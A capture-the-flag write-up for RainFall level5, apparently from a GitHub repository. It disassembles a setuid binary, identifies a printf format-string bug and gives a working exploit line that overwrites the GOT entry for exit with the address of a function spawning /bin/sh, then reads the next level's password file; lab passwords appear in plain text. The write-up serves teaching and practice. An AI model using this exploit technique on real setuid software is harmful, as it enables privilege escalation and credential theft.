


# Level 5

## Setup
We find a binary file at the root of the user **`level5`** named *`./level5`*.

To analyze the binary file we copy it to our own environment with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level5@localhost:/home/user/level5/level5 .
```

### Radare2

I am running `r2` inside docker.
```bash
docker run -it -v "$bin_file_path":/mnt/binary radare/radare2 bash -c "r2 /mnt/binary"
```

## Binary Analysis

On the `r2` prompt we need to run a couple of commands to analyze the `main` function.
```bash
[0x08048de8]> aaa # Analyze the binary
...
[0x08048ec0]> v # Enter visual mode
```

<p align="center">
   
</p>

### Code with addresses
```assembly
(gdb) set disassembly-flavor intel 
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o                   # -----
0x080484c2  n                   # -----
0x08048504  main                # -----
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disassemble n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb) 
```

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

int n()
{
  char v4[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(v4, 512, stdin);
  printf(v4);
  exit(1);
}

int o()
{
  system("/bin/sh");
  _exit(1);
}

int main() {
    return (n());
}
```

We can see that this time we have, an `fgets()` function instead of a `gets()` function, which is protected against *buffer overflow*, but the `printf()` is vulnerable against `format string` exploits. And also an uncalled function `o()` with a shell waiting to be executed. The fact that our functions have an `exit` function instead of a `return` means that we can't use the EIP register to point our next instruction to the `o()` function. 
What we can do is to modify the *GOT* (Global Offset Table) so that instead of the `exit` function we redirect the execution to our `o()` function.

> [!NOTE]
> When a program is loaded into memory, the dynamic linker/loader fills in the entries of the Global Offset Table with the actual addresses of global symbols.
> This process is part of the dynamic linking process and allows the program to resolve symbols from shared libraries at runtime.

> [!IMPORTANT]
> The Global Offset Table is crucial for dynamic linking but can also be a target for attackers. Attacks like "GOT overwrite" or "GOT hijacking" exploit vulnerabilities related to the Global Offset Table to redirect the execution flow of a program to malicious code.

### Permissions
As we can see in the permissions of the executable file, the binary `./level5` is executed with the privileges of the user **level6**, the owner of the file.
```bash
level5@RainFall:~$ ls -l level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
(gdb) set disassembly-flavor  intel 
(gdb) disassemble n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) break *0x080484ea
Breakpoint 1 at 0x80484ea
(gdb) run
Starting program: /home/user/level5/level5 
AAAA %#x %#x %#x %#x %#x %#x %#x %#x

Breakpoint 1, 0x080484ea in n ()
(gdb) x/s $eax
0xbffff440:	 "AAAA %#x %#x %#x %#x %#x %#x %#x %#x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x78232520	0x78232520	0x78232520
0xbffff450:	0x78232520	0x78232520	0x78232520	0x78232520
(gdb) continue
Continuing.
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 [0x41414141 0x78232520 0x78232520 0x78232520 0x78232520]
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't have any parameter to retreive from), we can identify our *input string* `0x41414141 0x78232520 0x78232520 0x78232520 0x78232520` on the **4th** *format specifier* / *argument*.

There is one *format specifier* in `printf` that allow us to store the **number of characters** written so far, into the integer pointed to by the corresponding argument: `%n`. We can specify in which argument we want this **number of characters** to be stored in, by specifying it like this: `%<argumentNumber>$n`.

We want to change the `exit` address (not `_exit`) on the *GOT* table to the `o()` function address, so we can redirect the execution flow of our program at the end of the `n()` function. 

To find the *exit* address on the *GOT* table we have to open radare2 and execute the following commands:
```bash
[0x080484ff]> aaa # Analyze the binary
...
[0x080484ff]> s 0x080484ff # Seek exit function
[0x080484ff]> pdf # Printf disassembly of the current function
[0x080484ff]> afl # List all functions in the binary
[0x080484ff]> s 0x080483d0
[0x080483d0]> pdf
; CALL XREF from sym.n @ 0x80484ff(x)
/ 6: void sym.imp.exit (int status);
| rg: 0 (vars 0, args 0)
| bp: 0 (vars 0, args 0)
| sp: 0 (vars 0, args 0)
\           0x080483d0      ff2538980408   jmp dword [reloc.exit]      ; 0x8049838
```

<p align="center">
   
</p>


We got the address of the `exit` function in the *GOT*: `0x8049838`.


As our input begins on the **4th** "argument" of `printf`, we can specify there the `exit` address, to overwritte it with the `O()` address `0x080484a4` (**int**: `134513828`) with `%4$n`.

We need the address `c` to be equal to *134513828* to get access to the shell with `system("/bin/sh")`. So in order to write the number *134513828* on the variable, we can use the `%n` specifier and compose an *input string* of *134513828* bytes or characters.

```bash
0x08049838 --> \x38\x98\x04\x08
\x38\x98\x04\x08 + padding of 134513824 characters with %134513824c + %4$n
```

### Solution

Connect with `ssh -p 4243 level5@localhost`
Enter the password `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

We can execute the `printf` buffer to store the number *134513828* on the address `0x08049838` where the `exit` *GOT*'s address is with this line. Of course, because we are running a shell through a pipe, we can keep the `stdin` open like the same trick from the last level:
```bash
(printf '\x38\x98\x04\x08' && echo '%134513824c%4$n' ; cat ) | ./level5

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
